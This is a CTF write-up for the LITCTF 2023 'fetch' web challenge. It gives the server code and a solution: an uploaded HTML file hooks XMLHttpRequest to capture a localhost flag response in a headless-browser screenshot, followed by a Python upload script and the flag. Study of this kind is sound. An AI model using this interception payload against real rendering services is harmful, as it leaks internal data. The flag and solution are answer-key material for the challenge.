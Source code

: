# Web - fetch (LITCTF 2023)

## Problem

We are given the following `index.js` file on port 4242:

```js
import puppeteer from "puppeteer";
import { randomString, startFlagServer } from "./flag_server";
import express from "express";
import fileUpload from "express-fileupload";
import fs from "fs";

const runHTMLFile = async (filePath) => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto(`file:${filePath}`);

  await page.evaluate(() => {
    const req = new window.XMLHttpRequest();
    req.open("GET", "http://localhost:6969/" + randomString, false);
    req.send(null);
  });
  const screenshot = await page.screenshot({
    path: filePath.replace(".html", ".png"),
    fullPage: true,
    type: "png",
  });
  await browser.close();

	return filePath.replace(".html", ".png");
};

const app = express();
app.use(fileUpload());
const port = 4242;
app.get("/", (req, res) => res.sendFile("index.html"));
app.get("/runHTML", async (req, res) => {
	// takes html file upload, saves it to "/uploads" + random string .html, runs it with the runHTMLFile function, and returns the screenshot
	const file = req.files.file;
	if (!file) {
		res.status(400).send("No file uploaded");
		return;
	}
	if (!file.mimetype.includes("html")) {
		res.status(400).send("File is not HTML");
		return;
	}

	const filePath = `/uploads/${Math.random().toString(36).substring(7)}.html`;
	fs.writeFileSync(filePath, file.data);
	const outputFilePath = runHTMLFile(filePath);
	res.sendFile(outputFilePath);
	// delete the files
	fs.rmSync(filePath);
	fs.rmSync(outputFilePath);
});

app.get('/sus.js', (req, res) => res.sendFile('sus.js'))

app.listen(port, () => console.log(`app listening on port ${port}!`));
startFlagServer();
```

Note that the flag server is running on port 6969:

```js
import express from "express";

const app = express();
const port = 6969;
export const randomString = Math.random().toString(36).substring(7);
app.get("/" + randomString, (req, res) => res.sendFile("flag.txt"));
export const startFlagServer = () =>
  app.listen(port, "127.0.0.1", () =>
    console.log(`flag server listening on port ${port}!`)
  );
```

We are also given the following hints in `sus.js`:
```
("big hints: headless browser with your file");
("gets flag from server");
("what can you do to intercept this?");
```

## Solution

As the hint suggests, our main objective is to intercept the AJAX request made to the flag server (`http://localhost:6969`) in the `runHTMLFile` function, i.e.:

```js
await page.evaluate(() => {
    const req = new window.XMLHttpRequest();
    req.open("GET", "http://localhost:6969/" + randomString, false);
    req.send(null);
  });
```

Some searching online rovides the following mechanism to overwrite the functionality of `XMLHttpRequest.prototype.open` upon receiving a response. This is in `fetchsolvehtml.html` for use in my solve script:

```html
<html>
    <script>
        // https://gilfink.medium.com/quick-tip-creating-an-xmlhttprequest-interceptor-1da23cf90b76
        let oldXHROpen = window.XMLHttpRequest.prototype.open;window.XMLHttpRequest.prototype.open = function(method, url, async, user, password) {
            this.addEventListener('load', function() {
                document.write(this.responseText);
            });        
            return oldXHROpen.apply(this, arguments);
        }
    </script>
</html>
```

Once this is done, the server returns a screenshot of the webpage that now contains the flag after performing `document.write(this.responseText);` above. A solve script to finish this is as follows:

```python
import requests

url = 'http://litctf.org:31770'

r = requests.post(url + '/runHTML', files = {'file': ('file.html', open('fetchsolvehtml.html', 'rb').read(), 'text/html')})
print(r.status_code)
with open('fetch_response.png', 'wb') as f:
    f.write(r.content)
```

## Flag

LITCTF{wow_i_actually_love_the_fetch}
